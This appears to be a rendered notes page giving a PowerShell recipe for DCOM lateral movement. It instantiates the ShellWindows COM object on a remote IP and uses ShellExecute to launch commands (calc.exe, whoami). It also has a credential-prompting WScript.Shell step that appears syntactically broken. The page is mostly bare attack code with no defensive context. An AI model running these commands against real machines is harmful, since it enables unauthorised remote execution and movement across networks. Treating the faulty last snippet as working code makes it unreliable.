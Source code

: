 # Execute DCOM

__OLEVIEW__
```
AppIds > ShellWindows
CLSID 	9BA05972-F6A8-11CF-A442-00A0C90A8F39
```

Now that we have the CLSID, we can instantiate the object on a remote target:
```
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

create a remote instance of 'ShellWindows'
```
$com = [Type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "127.0.0.1") 
$obj = [System.Activator]::CreateInstance($com)
```

interact with the object
```
$item = $obj.Item()
$item
```

create a shellexecute command 
```
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

Specify the target computer
```$targetComputer = "COMPUTERNAME"```

Use the computer account credentials for authentication
```$credential = Get-Credential -UserName "$targetComputer\$($env:COMPUTERNAME)" -Message "Enter computer account credentials"```


Create a DCOM object
```
$dcom = New-Object -ComObject "WScript.Shell" -Credential $credential
$command = "cmd.exe /c whoami"
$dcom.Run($command, 1, $true)
```
